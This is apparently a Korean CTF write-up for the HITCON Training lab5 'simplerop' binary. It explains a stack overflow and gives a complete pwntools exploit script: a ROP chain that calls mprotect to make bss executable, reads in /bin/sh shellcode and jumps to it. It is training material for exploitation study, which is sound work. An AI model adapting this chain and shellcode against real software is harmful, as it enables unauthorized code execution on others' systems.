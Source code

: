 ```yaml
---
layout: post
title: "[HITCON Training] lab5"
comments : true
category : War Game
---
```


# 문제
***

해당 바이너리는 다음과 같이 구성되어 있다.
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-14h]

  puts("ROP is easy is'nt it ?");
  printf("Your input :");
  fflush(stdout);
  return read(0, &v4, 100);
}
```

근데 어셈블리어를 보면 메인 함수의 prologue에 ```and esp, 0xfffffff0 ``` 명령어가 있는 것을 볼 수 있다. 따라서 실제 v4의 위치는 ebp-0x14가 아니고 직접 확인해야 한다.

또한 해당 바이너리는 statically linked가 되어 있다. (system 함수와 execve 함수 등이 없기 때문에 쉘 코드 삽입을 통해서 exploit을 해야 한다.)  

## exploit 방법
NX  mprotect 함수를 통해 bss 영역에 rwx 권한을 부여하고 해당 영역에 shellcode를 삽입한다. 그리고 shellcode로 jmp하면 exploit을 할 수 있다. 
(bss 영역의 앞 쪽에 stdin 이나 stdout 등으로 쓰이는 변수가 저장되어 있기 때문에 bss + X 에 shellcode를 삽입하는게 좋음)
 
 
# 풀이

```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab5/simplerop"
nop="\x90"*50
shell="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"

p=process(file_path)
p.recvuntil("input :")

mprotect=0x806d870
read=0x806cd50
pppr=0x080b4f39

bss_sec=0x080eb000


pay="A"*32
pay+=p32(mprotect)
pay+=p32(pppr)
pay+=p32(bss_sec)
pay+=p32(0x1000)
pay+=p32(7)
pay+=p32(read)
pay+=p32(bss_sec)
pay+=p32(0)
pay+=p32(bss_sec)
pay+=p32(0x100)


p.send(pay)
time.sleep(0.1)
p.send(nop+shell)
p.interactive()

```

# 알게 된 것
***

1. mmap 함수
void * mmap(void *start, size_t length, int prot, int
        flags, int fd, off_t offset);

mmap 함수는 파일을 메모리에 대응시키는 함수이다. 즉, 메모리를 할당하고 fd에 대응되는 파일을 해당 메모리와 연결시키는 역할을 한다. 만약 fd 값이 -1이면 순수하게 메모리를 할당한다. 

여기서 start에 들어가는 주소는 page size의 배수여야 한다. 또한 이 주소는 할당되지 않은 메모리여야 한다. 


2. mprotect 함수 
 int mprotect(void *addr, size_t len, int prot);

mprotect의 addr도 mmap 함수와 마찬가지로 page size의 배수여야 한다. 그리고 이 주소는 이미 할당된 메모리의 주소여야 한다. 

3. bss 영역의 주소는 readelf -S [binary] 를 통해 알 수 있다.

